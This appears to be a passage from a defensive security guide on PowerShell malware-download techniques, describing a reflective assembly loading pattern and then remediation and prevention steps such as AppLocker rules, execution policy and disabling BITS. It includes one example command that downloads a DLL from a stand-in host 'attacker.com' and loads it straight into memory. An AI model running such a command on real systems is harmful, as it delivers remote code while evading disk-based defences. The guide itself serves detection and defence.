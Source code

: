 **Why it's dangerous**: Uses legitimate Windows service to download malware stealthily.

#### 4. Reflective Assembly Loading (Critical)
**Pattern**: `[Reflection.Assembly]::Load()` with web-downloaded content

**Example**:
```powershell
[Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://attacker.com/evil.dll'))
```

**Why it's dangerous**: Loads .NET assemblies directly into memory, completely bypassing disk.

### Remediation Guidance

#### Immediate Actions
1. **Block malicious URLs**:
   - Add URLs to firewall/proxy blocklist
   - Update DNS filtering rules
   
2. **Kill active sessions**:
   ```powershell
   Get-Process -Name powershell | Where-Object {$_.CommandLine -like '*DownloadString*'} | Stop-Process -Force
   ```

3. **Check for persistence**:
   - Search for scheduled tasks, registry Run keys
   - Review startup folders and services

4. **Network forensics**:
   - Analyze proxy logs for download attempts
   - Check firewall logs for outbound connections

#### Prevention Measures
1. **Network Segmentation**:
   - Restrict internet access for servers and sensitive workstations
   - Implement egress filtering

2. **Application Whitelisting**:
   ```powershell
   # Block script execution from temporary folders
   New-AppLockerPolicy -RuleType Script -User Everyone -Action Deny -Path "$env:TEMP\*"
   ```

3. **PowerShell Execution Policy**:
   ```powershell
   Set-ExecutionPolicy AllSigned -Scope LocalMachine
   ```

4. **Web Proxy Configuration**:
   - Enable SSL inspection
   - Block known malware hosting domains
   - Alert on suspicious file downloads

5. **Disable unnecessary protocols**:
   ```powershell
   # Disable BITS if not needed
   Stop-Service -Name BITS -Force
   Set-Service -Name BITS -StartupType Disabled
   ```
